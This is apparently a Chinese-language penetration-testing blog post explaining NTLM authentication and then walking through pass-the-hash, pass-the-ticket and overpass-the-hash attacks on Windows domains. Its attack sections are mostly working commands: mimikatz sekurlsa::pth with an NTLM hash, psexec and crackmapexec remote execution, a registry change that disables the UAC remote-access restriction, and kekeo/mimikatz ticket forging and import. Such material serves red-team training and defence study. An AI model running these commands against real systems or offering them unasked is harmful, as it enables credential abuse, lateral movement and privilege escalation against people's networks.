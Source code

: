 ```yaml
---
title: "Mimikatz 哈希与票据传递"
date: 2019-07-16T00:00:00+08:00
draft: false
tags: ['mimikatz','domain']
categories: [' 内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


NTLM 协议以及 Mimikatz 哈希与票据传递

<!--more-->

## NTLM 协议

A 想访问 B, 双方先确定协议版本(NTLM v1/NTLM v2).

A 向 B 发送用户名信息, B 接受到用户名后用该用户的 NTLM Hash 加密 Challenge (8位/16位随机数) 作为 Challenge1 (Net-NTLM v1 Hash/Net-NTLM v2 Hash), 之后将 Challenge 发送给 A.

A 使用登录账号的 NTLM Hash 加密 Challenge 作为 Response 发送给 B.

B 接收到 Response 将其与 Challenge1 进行比对, 一致则为认证通过.

## pth (Pass the Hash)

从 NTLM 协议可以知道, 主机间的访问其实跟明文密码是一点关系也没有的, 正常请求时输入的密码也会被加密成 NTLM Hash, 再生成 Net-NTLM Hash.

由此引申出一个手段, 叫做 `Pass the Hash`, 顾名思义, `pth` 通过目标主机的用户名和 Hash 来访问指定机器.

### mimikatz

```
sekurlsa::pth /user:administrator /ntlm:aa5c294fbb6f8b8ae6223ba08805894e /domain:WIN7
```

```
psexec \\WIN7 whoami
```

### crackmapexec

```
crackmapexec WIN7 -u administrator -H aa5c294fbb6f8b8ae6223ba08805894e -d WIN7 -x whoami
```

### UAC

注意 windows 2008 及以上系统在默认情况下开启 UAC 策略, 不允许 administrator 以外的其它本地管理员用户访问远程资源.

可通过更改注册表关闭 UAC 策略.

域内用户不受此限制.

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

另有更多工具, 在此不再赘述.

## ptt (Pass the Ticket)

ptt 多用于 Kerberos 协议中, 即域环境内. 例如 Golden Ticket, Silver Ticket 以及 ms14-068 都通过 ptt 方式来提升权限.

ptt 相较于 pth 的好处是它无须本地管理员权限, 默认在 mimikatz 中进行 `sekurlsa::pth` 时须将其以管理员权限运行. 但 ptt 只能用于域环境内, 而 pth 在工作组和域内都可以使用.

ptt 的原理类似于 Golden Ticket, 它通过指定账户的用户名和 Hash 来生成一份高权限的 TGT 以请求不同的 TGS Ticket 来达到访问域内资源的目的.

通过 keko 生成 TGT.

```
tgt::ask /domain:test.com /user:administrator /ntlm:aa5c294fbb6f8b8ae6223ba08805894e
```

通过 mimikatz 导入 TGT.

```
kerberos::ptt ticket.kirbi
```

## ptk (Pass the Key/Over Pass the Hash)

ptk 为什么没有说呢, 因为自己在本地测试的时候总是不成功. 这里仅给出示例代码.

```
sekurlsa::pth /user:test /domain:test.com /aes256:54069d7bc9b69fd1a86817bd887f6f4e84a3c858c46081e4b443ab07a52e9a69
```